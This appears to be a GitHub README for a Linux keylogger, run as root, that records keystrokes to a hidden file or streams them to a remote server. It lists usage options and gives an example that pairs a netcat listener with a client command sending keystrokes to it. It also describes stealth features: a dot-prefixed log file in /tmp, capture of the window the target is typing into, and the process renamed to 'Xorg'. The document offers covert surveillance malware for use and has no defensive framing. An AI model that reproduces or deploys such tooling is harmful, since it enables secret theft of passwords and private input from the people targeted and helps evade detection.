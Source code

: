 # Simple_Local&Remote_Keylogger

Simple keylogger that runs on Linux.<br>
It must be run as root.

__________________________________________________________________________
Usage: #./slrk [OPTIONS]<br>
<br>
OPTIONS:<br>
	-d \<input-device\>:  if not specified, the default device is '/dev/input/by-path/***kbd'<br>
	-o \<output-file\>:   it can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'<br>
	-m remote -a \<IP-ADDR\> -p \<PORT\>: it sends all the keystrokes on the remote server located at \<IP-ADDR:PORT\><br>
<br>
EXAMPLE<br>
Server$ nc -lvp 8888 > logger.txt<br><br>
Client#./slrk -m remote -a 127.0.0.1 -p 8888<br>
__________________________________________________________________________
<br>(It shows the active window on which the target is writing)
<br>(Keys are mapped on English keyboard)<br>
(Process name is renamed as "Xorg")
